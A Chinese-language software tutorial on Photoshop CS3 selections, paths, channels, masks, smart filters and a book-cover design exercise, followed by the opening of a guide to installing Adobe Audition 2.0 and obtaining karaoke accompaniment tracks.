如果将对象从背景移除，可能会出现锯齿状像素或者模糊的像素。在应用选区之前，需要再对选区进行优化，还可以在白色或黑色的背景进行查看。如果要增加选择区域，可以选择上方属性栏中选择第二个带有加号的魔棒；如果要去掉多选的区域，可以在上方属性栏中选择第三个有减号的魔棒，把魔棒改小一点。然后用鼠标点击多余的区域，对其进行删除，也可以勾选Auto-Enhance（自动增强），这个工具可以自动加强选区的边缘。

- ③通过典型参数优化边缘

在选项栏中有一个“Refine Edge”（优化边缘）按钮，单击该按钮会打开一个对话框，在对话框中可以对所选的选区做精细调整，可以控制选区的半径（Radius）和对比度（Contrast），可以羽化（Feather）选区，也可以通过调节光滑度（Smooth）来优化锯齿状边缘，同时并不会使选区边缘变模糊，以及以较小的数值增大或减小选区大小，如图28所示。



- ④在不同的显示模式下优化边缘

在对话框下方，选择不同的按钮，可以得到不同的显示模式。第一个是标准视图，第二个是快速蒙板，第三个是黑色底模式，第四个是白色底模式，第五个是反相底片模式。我们选择第四种白色底的模式，这样图片上只有海滩突出显示出来了。在调整这些选项时，我们可以实时地观察到选区的变化，从而在应用选区之前确定所做的选区是否精准无误。如果觉得选区已经优化得不错，就可以单击“OK”按钮接受选区，然后再根据需要将其从图像中移除，或者在不影响选区之外内容的情况下编辑选区中的像素。

没有完美的选区就没有完美的特效，通过上面的实践可以看到，制作精致的选区是贯穿Photoshop图像处理始终的重要任务，因此也有人说“Photoshop是选择的艺术”。在实际操作中，面对不同的选择对象，需要不断练习、总结经验，才能让这些工具成为图像处理的好帮手。

## 4. Photoshop CS3的路径操作

在上面的操作中，相信很多用户都很熟悉铅笔、画笔等绘图工具了，不过，这些工具都是基于位图的。那么，有专门的工具来绘制矢量图吗？答案是肯定的。在Photoshop中，路径就是用钢笔、几何图形工具描述的矢量曲线。路径是由用户使用路径工具在图像上绘制的，它可以是一个点、一条直线，也可以是一条曲线，但大多数情况下是由许多直线或曲线在一起组成的。路径一般是基于贝塞尔曲线的。

> 小知识：贝塞尔曲线是由三点的组合定义而成的，其中一点在曲线上，另外两点在控制手柄上。其操作特点是通过用鼠标在面板上放置各个锚点，根据锚点的路径和描绘的先后顺序，产生直线或者是曲线的效果。

由于路径是矢量，不含具体的像素，因此路径独立于点阵图像，也不存储于特定的通道之中。路径一旦创建，就可以用路径面板来保存，随后还可以将它转换成选择的边界，或者进行填充和描绘。路径通常被用作选择的基础，它可以进行精确定位和调整；比较适用于不规则的、不适合使用其它工具进行选择的区域。

### （1）路径基本工具

路径编辑工具共有3个工具组：钢笔工具组，路径组件选择工具组和几何图形工具组。

##### ①钢笔工具组

钢笔工具由一组与路径有关的工具组成，用于建立直线或平滑的其他曲线。钢笔工具组中共有5个子工具，都是进行与路径有关的操作的。单击“钢笔工具”不放，可以看到它们分别是钢笔工具、自由钢笔工具、添加锚点工具、删除锚点工具和转换点工具，功能如表4所示。

| 工具 | 功能说明 |
|------|----------|
| 钢笔工具 | 用钢笔工具单击两个不同的位置，则在两个锚点之间创建了一条直线段，该工具用于绘制规则形状的直线路径和封闭多边形路径，如果在单击的同时拖动鼠标也可以绘制曲线。 |
| 自由钢笔工具 | 自由钢笔工具可以通过拖动鼠标，沿鼠标轨迹以手绘方式创建任意形状的路径，使用自由钢笔的感觉类似于套索工具。 |
| 添加锚点工具 | 该工具用来在已创建的路径上插入一个锚点。 |
| 删除锚点工具 | 删除锚点工具与添加锚点工具常常配合使用，它用来在已创建的路径上删除锚点。 |
| 转换点工具 | 可以改变锚点的属性，即把锚点转换成拐点或平滑点，然后拖动方位点来改变曲线的弧度。 |

##### ②几何图形工具

为了让用户更方便地使用向量方式绘图，Photoshop CS3还为用户提供了几何图形工具；单击“矩形工具”按钮不放，可以看到其中有6个子工具，分别是：矩形工具、圆角矩形工具、椭圆工具、多边形工具、直线工具、自定形状工具。用户不仅可以利用这些工具绘制各种简单的几何图形，还能自定义图形的形状，并将其存储在计算机中。

##### ③路径组件选择工具组

对路径上锚点的选取与编辑工作主要由路径组件选择工具来完成，单击“路径组件选择工具”不放，可以看到其下有2个子工具：路径组件选择工具和直接选择工具。其中，“路径组件选择工具”可以选择整个路径，然后用户可以移动或删除路径。利用“直接选择工具”可以选择路径，也可以编辑路径。用该工具拖出一个矩形可以选择部分路径，按住Shift键可以选择更多的路径区段。在选择路径之后，用户可以拖动结点或手柄来改造路径。

### （2）路径面板及基本操作

由于Photoshop CS3中，系统界面仍然没有提供关于“路径”的菜单，因此熟悉路径面板的各种功能就显得非常重要了。在路径选项面板中，可以进行存储、新建复制、删除等操作。

使用路径工具创建好路径后，单击路径面板右上角小三角，选择“存储路径”命令。在弹出的对话框中输入路径的名称后，单击“确定”按钮，就可以将路径存储起来。

如果想要删除当前路径，选中路径后，在弹出的菜单中选择“删除路径”命令或者直接将路径拖到路径面板下方的垃圾桶小图标上即可。

复制路径时，选中想要复制的路径，在弹出菜单中选择“复制路径”命令，或者直接将路径拖到路径面板下方的“创建新路径”小图标上即可，如图29所示。


### （3）绘制路径和转换选区

在设计较复杂的图形时，我们首先需要勾勒出一个精确的选区。使用路径工具就可以比较简单地将选区轮廓描绘出来，然后再将路径所包围的区域变成一个选区。创建路径有两种方法：用钢笔工具直接进行路径的描绘，或者在路径面板中使用新建路径的命令。下面，介绍如何利用路径制作选区。

##### ①勾勒大致轮廓

打开需要绘制路径的图像。在工具箱中选择“钢笔”工具。在要建立选区的图像边缘单击，绘制起始点，然后再分别单击图像轮廓的一些转折点，建立路径的大概轮廓。

##### ②编辑路径

创建路径之后需要对其进行编辑修改，使之更加符合需求。编辑路径将用到路径的选择工具，包括路径选择工具和直接选择工具两种；还有钢笔工具组中的添加锚点工具、删除锚点工具和转换锚点工具3种编辑工具。根据需要，在路径上添加和删除一些点。

> 小技巧：增加一个点时，将钢笔工具放在要加点的路径上，单击该处即增加一个点。也可以在工具箱中选择“添加锚点工具”工具，将鼠标移动到两个点之间，单击鼠标加一个点。要删除一个点，只要将钢笔工具放在已有的点上，钢笔工具就自动变成了“删除锚点工具”工具，单击该处该点即被删除。也可以直接按“Delete”键删除点。

##### ③对细节的处理

一些比较细微的地方，可以利用导航器将视图放大，并把导航器上的方块移动到要修改路径图像上。用同样方法修改其他各处路径，直到路径和图像轮廓相一致。编辑过程如图30所示。



##### ④将路径转换为选区

勾勒好路径后，可以将路径转换成浮动的选择线，用鼠标将路径面板中的路径线拖到面板下方的“将路径作为选区载入”小图标上，路径包含的区域就变成了可编辑的图像选区。也可将浮动的选区范围转换成为路径。将路径转换为选区后，才可以对路径所包围的图像进行复制、剪切、移动、描边等操作。用户还可以直接保存选区，以便下次使用，如图31所示。



此外，用户还可以通过“填充路径”命令，使用指定的颜色、图像状态、图案或填充图层填充包含像素的路径。总之，使用路径可以勾勒出优美的弧线，制作精确的选区。掌握路径线的绘制方法后可以成为Photoshop鼠绘高手，无需昂贵的数位板，只需用鼠标就可以完成高精度的数字图像的设计处理工作。

## 5. Photoshop CS3的通道与蒙版

通道源于分色印刷中的印版概念，在Photoshop中，通道主要用于存放图像的颜色信息。其次，通道还可以用来存放选区和蒙版，让用户以复杂的方式操纵和控制图像的特定部分。大家极为熟悉的透明GIF图像，实际上就包含了一个通道，用以告诉应用程序（浏览器）哪些部分需要透明，而哪些部分需要显示出来。

### （1）颜色通道、专色通道和Alpha选区通道

在Photoshop中，通道被分为颜色通道、专色通道和Alpha选区通道三种，它们以图标的形式出现在通道面板中。尽管Photoshop都把它们当作单独的灰度文档处理，但实际上它们的功能却完全不同。

##### ①颜色通道

这里记录所有打印和显示颜色的信息。这些通道的名称与图像所处的模式相对应，RGB图像有三个默认通道：分别用于红、绿、蓝颜色的通道，RGB图像每一个像素的颜色数据就分别用这三个通道来存储。CMYK模式的图像包含青色、洋红、黄色和黑色通道，印刷时，根据青色、品红色、黄色和黑色四色胶片上所记录的颜色信息，在纸上分布油墨即可印刷出彩色印刷品；Lab模式的图像包含明度、a、b两个通道。所以在绘制、编辑图像或对图像进行色彩调整、应用滤镜时，实际上是在改变颜色通道中的信息。在一幅图像中，像素点的颜色就是由这些颜色模式中的原色信息来进行描述的。那么，所有像素点所包含的某一种原色信息便构成了一个颜色通道。

通道面板中的左侧的显示图标控制主图像窗口中的显示内容，在显示图标上单击就可以切换开关状态。高亮显示的通道是可以进行编辑的激活通道。单击通道名称可以激活这个通道；如果想同时激活多个通道，可以按住Shift键单击这些通道的名称。RGB和CMYK通道面板如图32所示。



##### ②专色通道

这扩展了通道的含义，同时也实现了图像中专色版的制作。印刷时，每一种专色油墨都对应着一块印版，为了准确地印刷图像，在一些高档的印刷品制作时，往往需要在四种原色油墨之外加印一些其他颜色，以便更好地再现其中的纯色信息，这些加印的颜色就是“专色”。单击“通道”面板右上角的三角形按钮，在弹出的菜单中选择“新建专色通道”，即可弹出新专色通道对话框。然后，为其命名并设置油墨颜色和纯度特性，如图33所示。


专色通道可以直接合并到各个原色通道中。选中要合并的专色通道，然后选择“通道”调板菜单中的“合并专色通道”命令，专色通道就分别被混合到各个原色通道中。

##### ③ Alpha 选区通道

这是存储选择区域的一种方法，也是非常有用的工具之一，很多 Photoshop 特殊效果都是利用 Alpha 选区通道制作的。Alpha 选区通道就好像一个很大的选区存储柜，当精心制作了一个复杂的选区之后，如人像的头发、动物毛皮的轮廓、烟雾等，将来可能还要再次使用它，这时就可以执行“选择”→“存储选区”命令，将这个选区作为永久的 Alpha 选区通道保存起来。当再次需要使用这个选区时，可以执行“选择”→“载入选区”命令，即可调出通道表示的选择区域，十分方便。

### （2）蒙版及其创建

蒙版就是蒙在图像上用来保护图像的一层“版”。当要给图像的某些区域运用颜色变化、滤镜和其他效果时，它可以让用户隔离或保护图像的其余区域。当选择了图像的一部分时，没有被选择的区域被保护而不被编辑。

在 Photoshop CS3 中，有以下几种方式创建蒙版，分别是：“快速蒙版”模式；利用 Alpha 通道存储和载入选区作为蒙版；在图层面板中利用“Add Layer Mask”（添加图层蒙版）命令创建特定图层的蒙版。

- “快速蒙版”模式；
- 利用 Alpha 通道存储和载入选区作为蒙版；
- 在图层面板中利用“Add Layer Mask”（添加图层蒙版）命令创建特定图层的蒙版。

下面，以快速蒙版模式为例讲解。这是一种能让用户同时观看图像和蒙版的编辑模式，蒙版的区域会以颜色来与选区作为区别。利用该模式可以编辑精细度要求高的选区，或对某些区域作局部的细化处理。快速蒙版模式可以直接将选区作为蒙版编辑，其作用在于：用户可以使用几乎所有的 Photoshop 工具或滤镜来修改蒙版，而不会实际影响到原图像。使用方法如下：

- ① 双击工具栏上的“以快速蒙版模式编辑”按钮，即可打开“快速蒙版选项”对话框。在色彩指示区域，可以设置颜色显示为“被蒙版区域”或“所选区域”。此外，还可以设置蒙版颜色和不透明度等参数，如图 34 所示。





- ② 选择一个矩形选框，选择图形的某一部分，然后单击“以快速蒙版模式编辑”按钮，即可看到蒙版编辑区域，如图 35 所示。

可见，快速蒙版功能可以快速地将一个选区变成一个蒙版，然后对这个快速蒙版进行编辑，以完成一些精确的选取。此外，图层蒙版可以控制图层中的不同区域如何被隐藏或显示。通过更改图层蒙版，可以将大量特殊效果应用到图层，而实际上不会影响该图层上的像素。

小知识：将选区作为蒙版编辑不会实际影响到原图像。蒙版还允许用户将一个已建立的选区作为一个屏蔽蒙版保存到一个新的附加通道（如 Alpha 通道）中。还可以通过蒙版对各选区进行相加、相减和重叠的工作，以达到更满意的设计效果。

## 6. 智能滤镜：开创全新工作方式

Photoshop 提供了大量的滤镜效果，这是一些经过专门设计、用于产生图像特殊效果的工具，就好像许多特制的眼镜，戴上它们后会产生各种特定的效果。

在 Photoshop CS3 中，用户将体验更加强大的滤镜操作，尤其是新增加的智能滤镜功能让人耳目一新。使用过程中，各个滤镜均可灵活编辑、互不干扰，可以说是一种全新的工作方式。

### （1）Photoshop CS3 一般滤镜和工具滤镜介绍

在 Photoshop CS3 中，单击“滤镜”菜单，即可看到常见的滤镜，如图 36 所示。表 5 为常见的滤镜及功能说明。



表5 常见的滤镜及功能说明
| 名称 | 功能说明 |
| :--- | :--- |
| 风格化滤镜 | 风格化滤镜通过替换像素、增强相邻像素的对比度，使图像产生加粗、夸张的效果。 |
| 画笔描边滤镜 | 画笔描边滤镜的使用，使图像产生使用不同笔刷和墨产生的艺术画效果。 |
| 模糊滤镜 | 模糊滤镜的使用，使图像中相邻像素减少对比度而产生朦胧的效果，常用来光滑边缘过于清晰和对比过于强烈的区域。 |
| 扭曲滤镜 | 扭曲滤镜的使用，使图像产生三维或其他形式的扭曲。由于扭曲滤镜的效果一般较为强烈，一般用于选择的、羽化的图像区域。 |
| 锐化滤镜 | 锐化滤镜使图像中相邻像素增加了对比度，效果类似于调节相机的焦距使得景物更清楚。 |
| 视频滤镜 | 视频滤镜主要包括逐行滤镜和 NTSC 颜色滤镜。前者能将视频信息组合在一起，创建位图图像。后者能将 RGB 图像中系列颜色恢复成电视的全部色彩。 |
| 素描滤镜 | 素描滤镜使图像产生硬笔绘画的艺术效果。 |
| 纹理滤镜 | 纹理滤镜通过替换像素、增强相邻像素的对比度，使图像产生加粗、夸张的效果。 |
| 像素化滤镜 | 使用像素化滤镜可以将图像变为由指定的元素组成的图像。 |
| 渲染滤镜 | Photoshop 提供的六种渲染滤镜可以自动生成三维变换效果、云彩效果、光照效果、分层云彩效果以及镜头光晕效果等。 |
| 艺术效果 | 艺术滤镜的使用，使图像（主要是摄影图像）转变为不同类型的绘画作品。 |
| 杂色滤镜 | 杂色就是随机分布的彩色像素点，使用杂色滤镜可以在图像上加入或移去杂色，以使所选区域溶入其周围区域。 |
| 其他滤镜 | 其他滤镜通过替换像素、增强相邻像素的对比度，使图像产生加粗、夸张的效果。 |

小知识：图像如果在位图、索引图、48位 RGB 图、16位灰度图等色彩模式下，将不允许使用滤镜；在 CMYK、Lab 色彩模式下，将不允许使用下述滤镜：艺术效果、画笔描边、素描、纹理及视频等。

除了上述常用滤镜，Photoshop CS3 还提供了工具滤镜，抽出滤镜、液化滤镜、图案生成器、三维变换、设计滤镜、增效工具滤镜等。例如，当选择图像区域边缘细微复杂时，使用“抽出”滤镜则可以高效率地将选择对象从背景图像中分离出来。通过这些丰富的滤镜功能组合，可以产生许许多多的图像效果。

### （2）Photoshop CS3 智能滤镜操作实例

下面，通过一个实例讲解智能滤镜的操作方法。

##### ① 把图片转换成智能对象

对一张图片应用智能滤镜之前，我们首先要把图片转换成智能对象。转换时，选中需要转换的那一层，单击“滤镜” -> “convert to smart filters” (转换为智能滤镜对象) 选项，也可以直接选“图层” -> “smart objects” (智能对象) -> “convert to smart object” (转换为智能滤镜对象)，将其转换为智能对象。单击选项后，这时会弹出一个对话框，提示是否要使用可再次编辑的智能滤镜，就要把所选的层转换成智能对象。这个时候你观察你的层，就会发现层的缩位图上出些一个符号，表示当前层已经是智能对象了，如图37所示。



##### ② 应用智能滤镜并设置参数

选中图层后，单击“滤镜” -> “模糊” -> “径向模糊”选项，这时会弹出一个“径向模糊”对话框，将数量设置为“8”。这时会发现图层上有了变化，在当前图片下方出现了一个“smart filters”(智能滤镜对象)，再下面是“径向模糊”，这表明当前层图片已经应用了智能滤镜，如图38所示。



##### ③ 添加“风”滤镜效果

利用同样的方法，应用“滤镜” -> “风格化” -> “风”这个滤镜，可以看到，“风”这个滤镜也纳入了智能滤镜的管理中。单击“风”滤镜前面的眼睛图标，则可以关闭其滤镜效果。双击滤镜对象，可以进行参数设置。图层面板如图39所示。


##### ④ 编辑单个滤镜参数

如果对当前滤镜效果不满意，直接在滤镜对象上双击即可对其参数进行重新设置。或者直接在当前滤镜层上单击右键，在弹出的菜单中选择“Edit Smart Filter”(编辑智能滤镜)，即可对其参数重新调整。这些最新的功能在以前的Photoshop版本中没有出现过。在老版本中，如果滤镜效果不合适，就要重新设计，中间有多个滤镜需要处理时，处理起来十分麻烦。现在，通过智能滤镜对其进行对象化管理，使用起来十分方便。双击滤镜层最右边的三角形组合按钮，可以进行混合选项设置。处理后的图片效果如图40所示。



## 四、综合提高篇 Photoshop CS3书籍设计实例

为了便于用户掌握Photoshop CS3的最新功能，同时加深对常用操作的理解。下面，通过一个连续的实例进行讲解。每个部分既可以单独练习，也可以作为连续练习。

### 1. 书籍封面制作

近年来，随着读者对计算机技术知识的需求不断增加，计算机类图书经济利益回报高，因此吸引了众多的出版社参与其中。计算机类图书市场发展十分迅速。作为一种典型的内容产品，计算机图书是由若干要素构成的，其中，书籍封面就是一个十分重要的因素，它在市场竞争中起着自我推销的作用。为了吸引眼球，设计者想方设法使用各种技巧：封面使用强烈的色彩对比；书名字号变化，并使用各种变形或阴影；封面图案尽量追求震撼力，同时还要体现高科技、时代感。另外，有些书籍还会加上书签，在封面上加图书护封等。

下面，通过应用蒙版、渐变、图层叠加、文字特效、滤镜等工具来设计一本Photoshop CS3的书籍封面。

#### （1）新建图像

图像大小为400 × 560像素，背景为白色。考虑到书籍封面需要用打印色打印，因此选择CMYK模式，同时设置分辨率为300像素/英寸，如图41所示。



#### （2）背景渐变的设计

设置前景色为淡蓝色，其RBG值为(69, 102, 174)，背景色为白色。新建一个图层，名称为“图层1”，并将其作为当前层。然后，在工具箱中点击“渐变工具”，选择从前景色到背景色的渐变，然后在背景层中从上到下画出渐变选区。

# 超级软件教程

（3）建立矩形选区
用“矩形选框工具”在上方1/6处建立一个选区，然后填充白色。这是一本书籍的重要设计部分，因此，应尽量显眼，如图42所示。

（4）设置矩形选区内的图案
为了丰富画面，可以选择一些图案或其他线条进行补充。为了突出文字，这些图案应尽量使用浅色。
新建“图层2”，任意拷贝一个图片，将其粘贴到此图层。单击“图像”“调整”“曲线”，将其颜色减淡。例如，为了减少红色调，可以直接选择“洋红”通道，然后对其曲线进行调整，如图43所示。

（5）设置文字“Photoshop CS3”
书名全称为“Photoshop CS3 简明教程”，这里将书名分为两个部分，分别是：“Photoshop CS3”和“简明教程”。首先设置“Photoshop CS3”。在工具箱中选择“横排文字工具”，在工具选项的字体下拉列表框中选择“Mesquite Std”，大小选择12。输入“Photoshop CS3”，然后，单击“样式”面板，选择其中的“Deep Blue Glass”，如图44所示。

（6）设置文字“简明教程”的效果
新建一个图层，命名为“简明教程”。设置前景色为白色，然后使用“横排文字工具”输入“简明教程”，字体可以灵活选用，这里选择粗宋体，大小为14pt。同时，以文字大小为范围，使用“矩形选框工具”建立一个选区，然后用黑色填充。同时，以“简明教程”为当前层，使用默认的“斜面和浮雕”样式，如图45所示。

（7）设置封面下方背景图
为了体现时代感，同时也便于用户操作，下面选择了一个简单的几何图形组合。现在，新建一个图层，命名为“下半部分背景”。设置前景色为黑色，背景色为白色，选择“渐变”工具，在属性栏设置渐变方式为“线性渐变”，按住Shift键对画布进行从左向右的渐变填充。

（8）给封面下方背景图应用滤镜
应用之前，首先将其转换为智能滤镜对象。然后，执行“滤镜”→“像素化”→“彩色半调”命令，打开“彩色半调”对话框。在其中设置“最大半径”为20像素，“通道1”、“通道2”、“通道3”和“通道4”的参数为100，设置相同的参数后，将来产生的圆点才不会出现重影现象，如图46所示。

（9）调换图层位置并加上其他封面要素
现在，将应用滤镜后的“下半部分背景”图层位置调换至底层背景图上面，并用“矩形选框工具”删除上边的多余部分。然后，加上其他封面要素，例如，书籍系列、出版单位等。这样，整个封面就显得有点生动了。图层面板如图47所示。

（10）对比效果
设置完毕，还可以利用Photoshop CS3的许多新功能进行修改完善。例如，可以对比使用智能滤镜后的效果。封面效果对比如图48所示。
需要说明的是，对于一个完整的封面设计来说，上述设计是完全不够的，还需要设计封底、书脊等，有兴趣的用户可以多多练习。

### 2. 书籍展示界面设计

一般来说，在推广书刊的过程中，总会设计一些宣传类海报，这会对图书营销起到很好的推广作用。下面，结合上述例子中的书刊封面，设计一个推广界面。这个界面既可以用作宣传海报，也可以用于网站等设计场合。在制作技术上，使用了自定义图案、自由变换等技术，具体步骤如下：

（1）新建文件
设置文件大小为1000×600像素，设置背景颜色的RGB值为（109，147，245），分辨率为300像素/英寸。按Ctrl+N键，新建一个文件，并使用背景色进行填充。

（2）设计第一个图案
在“图案”图层面板中新建图层，名称为“图层1”，建立一个18×18像素的选区，使用RGB值为（163，220，254）的颜色填充。按住Alt键，使用矩形选框工具减少选区。使用RGB值为（75，175，215）的颜色填充。使用同样的方法，填充RGB值为 (210, 240, 250) 和 (108, 188, 220) 的颜色，通过Shift键的配合，完成此图案的设计。然后，使用“矩形选框工具”选中第一个图案，单击“编辑” → “定义图案”菜单，在弹出的菜单中设置其名称为“图案1”，如图49所示。

（3）定义第二个图案
首先，在图层面板中创建新图层，名称为“图层2”。打开“矩形选框工具”，新建一个大小为144 × 144像素的正方形选区，并使用RGB值为 (122, 224, 252) 的颜色填充。然后，按下Ctrl+D键取消选择区。最后，选择工具箱中的套索工具，在正方形对角线的上半区图形上创建一个特殊形状的选区，并使用RGB值为 (220, 255, 255) 的颜色填充。
同时，在正方形对角线的下半区图形上创建一个特殊形状的选区，并使用RGB值为 (16, 166, 200) 的颜色填充。设置完毕，通过Ctrl键单击“图层2”，载入选区，然后存储该图案，如图50所示。

（4）填充第二个图案
分别删除“图层1”和“图层2”上面的单个图案，如果有选择区，直接按Ctrl+D取消选区。现在，选择“图层2”为当前层，选取工具箱中的“油漆桶”工具，然后在属性工具栏上定义填充对象为图案，并填充“图案2”，如图51所示。

（5）对第二个图案进行变形
考虑到计算机技术的现代化气息比较浓厚，因此，可以制造一种立体化的空间。首先，使用Ctrl+T键对图层进行变形，将其压缩一半。然后，单击“编辑” → “变换” → “斜切”按钮，对其进行透视变形，形状类似梯形。

（6）填充“图案1”并制作背景图案
切换到“图层1”，沿着上方垂直画面区域建立一个矩形选框，注意设置其羽化值为10px。然后，填充“图案1”。为了增加一种宣传栏的感觉，单击“自定义形状工具”，选择兰花的样式，填充颜色值选择RGB (122, 204, 147) 或其他颜色。然后，在宣传栏上任意组合。颜色也可以交替选择，如图52所示。

（7）制作书籍
现在，摆放书籍的大环境大致制作完毕，为了突出书籍的立体感觉，现在将其放入透视空间中。通过矩形选框工具建立一个细长矩形选区，然后利用“编辑” → “变换” → “斜切”工具进行变形。制作完毕，可以对书脊边缘进行描边。制作效果如图53所示。

（8）展示效果组合
将书籍模型放入到设计展示框中，为了增加边缘效果，可以给书脊还增加一些滤镜效果，效果如图54所示。
当然，在设计过程中，除了熟练掌握Photoshop CS3的各种工具，还要在脑海里有一套系统而成熟的设计理念。通过不断地操作和实践，掌握更多的设计技巧。这样，最终的设计作品才能为读者所喜欢。在上面的例子中，使用了许多Photoshop CS3的新功能，用户可以在实践过程中多多体会。

# 让你成为周杰伦
## —— Adobe Audition 完全使用指南

文 / TMG tx

> > 引言：“我送你离开千里之外你无声黑白，沉默年代或许不该太遥远的相爱，我送你离开天涯之外你是否还在，琴声何来生死难猜用一生去等待……”

这是大名鼎鼎的“周总”的《千里之外》的一段经典歌词，什么你也想录制一次属于自己版本的《千里之外》？呵呵，那很简单，很多录音翻唱软件都能够实现。什么你不知道哪一款翻唱软件最好用，功能最强大？
是的，目前，能进行录音翻唱的软件种类繁多，但大都功能复杂使用繁琐。这里，我们采用老牌公司Adobe的Adobe Audition 2.0进行介绍，它是一款使用简便同时功能十分强大的录音处理软件。本章节以及下一章的大部分内容都和这款软件有关，可以说掌握了这款软件就等于掌握了大部分录音翻唱的技巧。

## 一、Adobe Audition 2.0 简介

对Adobe Audition你也许没有印象，但是大名鼎鼎的Cool Edit pro你一定有所耳闻，该软件曾经长期占据电脑音乐软件的霸主地位。自从2003年5月Adobe收购Syntrillium之后，其产品Cool Edit pro也改名为Adobe Audition。除了全新的皮肤界面和新增的一些功能外，二者在布局和使用上没有太大的差别。

#### 1. Adobe Audition 2.0基本安装及使用

（1）首先，请在Adobe官方网站下载Adobe Audition 2.0试用版，下载地址：http://www.adobe.com/cn/downloads/，此版本试用期为30天。同时，请在官方获取serial number（即序列号），以便能正常安装软件。如果你需要正式版软件，请通过正常渠道直接购买正版软件，或者从官网上直接购买激活码。经过以上步骤，之后的安装过程就非常简单了。

（2）解压下载的文件包，运行Audition 2.0 Setup.exe程序，在弹出的语言选项中选择“English”。单击“OK”，在弹出的新对话框中直接单击“Next”，之后就会弹出“用户须知”窗口。其中也包括中文的用户须知。但是，即使选择中文的用户须知，也不会安装出中文版本。看完用户须知后，单击“Accept”进入下一步。

（3）进入到序列号输入界面，在“User Name”中输入你的姓名，在“Organization”中输入你所在单位，最后在“Serial Number”中输入之前在官方获得的序列号。单击“Next”进入下一步的安装。

（4）进入到选择安装路径的步骤。单击“Change”就可以选择软件的安装路径，这里使用默认路径。单击“Next”进入下一个安装步骤。

（5）选择软件所关联的文件。如果你还是一个新手，对于音乐格式没有特殊要求，建议使用默认设置，直接单击“Next”进入下一步。

（6）在下一个窗口直接单击“Install”就开始安装软件了。待安装完毕，单击Finish，Adobe Audition 2.0的安装就完成了。

（7）第一次运行Adobe Audition 2.0的时候，系统会告知你本软件是30天试用版本，询问你是否注册激活。如果你已经从官方购买了激活码，请单击“Activate”直接注册激活。如果还没有，请你在激活界面选择“Continue”，在之后的注册窗口选择“Do Not Register”，以后再进行激活和注册。

（8）之后系统会询问临时文件的存放位置。如果选择“Yes”，系统会默认在C盘之外的盘符里选择其中可用空间最大的一个，作为临时文件的存放位置。如果选择“No”，则Adobe Audition 2.0会直接选择C盘存放临时文件。

（9）进入操作界面后，如图1。软件会自动加载一些演示文件，作为试听之用，如果不需要这些试听文件可以在列表中清除掉。至此，安装工作基本结束。

（10）到现在为止，Adobe Audition 2.0全部是英文界面，给我们大多数英文水平差的同胞带来很多的不便。不过，我们可以从各大网站下载汉化补丁，对软件进行汉化。汉化步骤十分简单，双击所下载的汉化包，然后选择安装在与Adobe Audition 2.0相同的路径下就可以了。

#### 2. Adobe Audition 2.0基础知识

Adobe Audition 2.0具有三种操作界面，多轨查看、编辑查看、CD查看。通过“查看”菜单中的多轨查看、编辑查看、CD查看三个选项可以进行界面间的切换。另外，也可以利用快捷菜单中的三个按钮进行切换。

- （1）多轨查看模式
多轨查看模式中，菜单、工具栏、群组、快捷键、效果窗口、主控电平都一目了然。由于Adobe Audition 2.0跟Adobe的平面设计软件采取相同的设计思路，所以在界面上使用了自由整合选择及记忆功能。用户在使用中进行的界面隐藏和增设，软件都会自动记忆，当然，也可以手动重新自定义。
在多轨查看界面中，可以进行多个声音文件的混合、编辑插入，是我们进行翻唱所需要的必备功能，如图2。

- （2）编辑查看界面
而在编辑查看界面中，要进行的是单轨音频的编辑。可以对单个声音文件进行录音、编辑、效果处理、音频优化、基本设置等各种音频的前后期处理，如图1。

- （3）CD查看界面
CD查看界面则是一个制作CD盘片以及模拟盘片数据的操作工具。可以对音轨进行编辑，并利用你自备的刻录光驱，将制作内容直接刻录成CD盘片，如图3。
Adobe Audition 2.0的菜单包括“文件”、“编辑”、“查看”、“效果”、“生成”、“收藏”、“选项”、“窗口”、“帮助”等，各菜单项的具体功能我们会在后面的章节进行介绍。

## 二、获取伴奏音乐

要想进行翻唱，首先就需要准备好伴奏音乐。下面，我们就来介绍几种获得伴奏音乐的方法。

### 1. 网上获取伴奏音乐

获取伴奏音乐最直观最容易的方法，莫过于网上下载了。你只需要在“百度”之类的大型搜索引擎直接搜索伴奏歌曲，就能获得大多数你想要的歌曲伴奏。
例如，想搜索《简单爱》这首歌的伴奏音乐，你只需要进入“百度”首页，然后单击“mp3”选项，在搜索条中输入“简单爱 伴奏”进行搜索。单击搜索到的链接，就能开始下载伴奏音乐了。
另外，随着网络翻唱的兴起，大量翻唱网站纷纷建立。你只要在“Google”、“百度”等大型搜索引擎上输入“伴奏音乐”或者“伴奏下载”等词汇进行搜索，也能查找出很多提供伴奏下载的音乐网站。这里我们以号称“华人第一音乐社区”的“163888.net”为例，简单的介绍一下从翻唱网站上下载伴奏音乐的几项步骤：

- （1）打开网页浏览器，进入“163888.net”的首页。在首页的最上面一行的右侧找到“伴奏”按钮，单击“伴奏”按钮，进入“163888免费伴奏下载中心”。
这里有大量的伴奏音乐资源，提供免费下载。你可以根据排行榜查找你需要的歌曲，也可以通过上面的“伴奏搜索”来查找。同时，也可以通过左侧的“伴奏分类”，根据歌手的国籍、性别、类别等参数查找到相关歌手的所有歌曲的伴奏。其中，歌手的姓名是按照拼音的顺序排列的，查找起来十分方便。

- （2）找到需要的伴奏音乐之后就可以进行下载了。单击搜索到的伴奏的名称，进入伴奏试听界面。如果你需要，可以先对音乐进行试听，确认是你需要的伴奏之后再下载音乐。

- （3）单击“下载地址”一栏中显示的那个链接，在弹出的对话框中选择“保存”，并确定存放位置，然后再点“保存”，这样就开始下载伴奏了。

- （4）从网上下载伴奏音乐的过程基本就是这样，由于网站的差异，操作的过程可能会有所不同，但绝大部分网站都是采用这个模式。有的站点可能还需要注册成为会员才能下载伴奏，相信你都能够简单的应付这些操作。

#### 2. VCD提取伴奏音乐

我们要介绍的另一种获取伴奏音乐的方法，就是从你所收藏的VCD中提取音乐伴奏。相信喜欢唱歌的朋友，家中都收藏有不少卡拉OK的VCD唱碟。其实，只要稍加处理，就可以从这些VCD中获得你所需要的伴奏音乐了。
这里就要用到我们之前介绍的Adobe Audition 2.0了。

- （1）由于Adobe Audition 2.0并不支持VCD的.dat格式，我们需要先把VCD中MPEGAV文件夹下的视频文件拷贝到硬盘，然后把文件的后缀名改成.mpg。之后再运行Adobe Audition 2.0，并切换到多轨查看模式，在“轨道1”中右击鼠标一下，在弹出的菜单中选择“插入”→“提取视频中的音频”。

- （2）这时会弹出一个选择窗口，输入已经更改为.mpg后缀的视频文件的所在路径，并把文件类型改成“所有文件(*.*)”，选择文件并单击“打开”。打开视频文件之后，切换到“编辑查看”界面。这时我们会发现，卡拉OK格式的文件中，音频的上下两个声道分别存放着伴奏音乐和原唱。

